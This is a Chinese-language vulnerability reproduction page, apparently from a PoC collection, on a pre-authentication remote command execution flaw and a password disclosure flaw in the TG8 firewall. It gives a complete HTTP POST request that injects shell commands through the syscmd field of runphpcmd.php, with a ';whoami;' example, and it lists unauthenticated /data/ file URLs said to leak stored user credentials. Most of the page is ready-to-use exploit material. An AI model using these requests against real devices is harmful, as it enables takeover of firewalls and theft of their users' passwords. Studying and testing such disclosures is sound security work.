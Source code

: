 # 

# TG8 防火墙 RCE及密码泄漏漏洞

## 漏洞描述

TG8防火墙中存在两个漏洞，远程用户可以以用户身份执行命令而无需通过设备进行身份验证。第二个漏洞允许在不经过身份验证的情况下公开现有用户的密码。

参考链接：

- https://ssd-disclosure.com/ssd-advisory-tg8-firewall-preauth-rce-and-password-disclosure/

## 漏洞复现

### RCE

poc：

```
POST http://<server>/admin/runphpcmd.php HTTP/1.1
Host: Server
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive


syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+<Payload>++local
```

执行whoami：

```
syscmd=sudo+/home/TG8/v3/syscmd/check_gui_login.sh+;whoami;++local
```

### 密码泄露

/data/目录下储存了登录过用户的凭据，无需登录即可访问此目录下的文件。

例如：

```
http://<server>/data/w-341.tg
http://<server>/data/w-342.tg
http://<server>/data/r-341.tg
http://<server>/data/r-342.tg
```


